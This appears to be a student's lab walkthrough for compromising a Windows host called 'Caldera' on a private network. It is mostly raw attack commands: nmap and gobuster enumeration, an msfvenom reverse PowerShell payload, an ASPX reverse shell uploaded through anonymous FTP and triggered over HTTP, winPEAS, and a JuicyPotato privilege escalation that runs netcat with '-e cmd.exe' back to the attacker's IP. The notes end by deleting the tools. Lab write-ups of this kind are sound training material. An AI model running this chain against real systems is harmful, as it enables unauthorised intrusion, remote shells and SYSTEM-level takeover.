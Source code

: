 ﻿# Caldera 192.168.2.4
## Andrea Zonnekus 18758119

nbtscan -r 192.168.2.0/24

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.001.png)

sudo nmap --vv -Pn -sT -O -sV 192.168.2.4 --open -oA host\_scan --script="default or safe" --proxies socks4://127.0.0.1:9050

![Graphical user interface, text, application

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.002.png)

gobuster dir -u 192.168.2.4 -w /usr/share/dirb/wordlists/big.txt -o http\_enum -x php,html,js,txt

![A screenshot of a computer

Description automatically generated with medium confidence](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.003.png)

sudo nmap -sV -sT -sC -Pn -p 445 192.168.2.4 -script="smb-os-discovery" -oN smb

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.004.png)

msfvenom -p cmd/windows/reverse\_powershell LHOST=10.8.0.106 LPORT=4444 -o shell

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.005.png)

sudo nmap -sV -sT -sC -Pn -p 21 192.168.2.4 --script=\*ftp\* -oN ftp

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.006.png)

can see there is aspnet\_client – using aspx for sure

< do a bunch of things to try and exploit smb >

<https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx>

![Background pattern

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.007.png)

wget <https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx>

![Graphical user interface

Description automatically generated with medium confidence](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.008.png)



wget <https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat>

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.009.png)

can’t put files right now but I can check this later

nmap -p 554 -sV -T5 192.168.2.4 --script=rtsp\* -oN rtsp

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.010.png)

cant enum more information on this, next port on the list

nc 192.168.2.4 2100

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.011.png)

non-default port for this, interesting

nmap -p 2100 -sV 192.168.2.4 --script=ftp\* -oN ftp\_non\_def

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.012.png)

![Graphical user interface

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.013.png)



check the other ports while that works

<https://www.speedguide.net/port.php?port=19>

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.014.png)

ftp 192.168.2.4 -p 2100

put winPEAS.bat

put shell.aspx

![A screenshot of a computer screen

Description automatically generated with medium confidence](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.015.png)

check, nothing happens

nmap -p 443,8080 192.168.2.4

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.016.png)

nmap -p 50000- 192.168.2.4 –open

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.017.png)



nc 192.168.2.4 61240

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.018.png)

<http://192.168.2.4:61240/shell.aspx>

![Graphical user interface, application, website

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.019.png)

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.020.png)

where -r c:\ winPEAS.bat

![Text

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.021.png)

winPEAS.bat

![Graphical user interface

Description automatically generated](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.022.png)



interesting out

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.023.png)

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.024.png)

![A screenshot of a computer

Description automatically generated with medium confidence](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.025.png)

ftp anonymous@192.168.2.4 -p 2100

![](Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.026.png)

nc -lvnp 1234

nc -lvnp 4444

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.027.png)



where -r c:\ shell.aspx (cause lazy)

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.028.png)

dir

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.029.png)

jp.exe -t u -p "nc.exe" -a "10.8.0.106 4444 -e cmd.exe" -l 6666

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.030.png)

whoami

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.031.png)

del jc.exe jp.exe nc.exe shell.aspx

![](caldera_steps/Aspose.Words.cd9beb05-7a3e-44e5-af4b-aa1f947d17da.032.png)

forgot I was actually was nc at the time haha
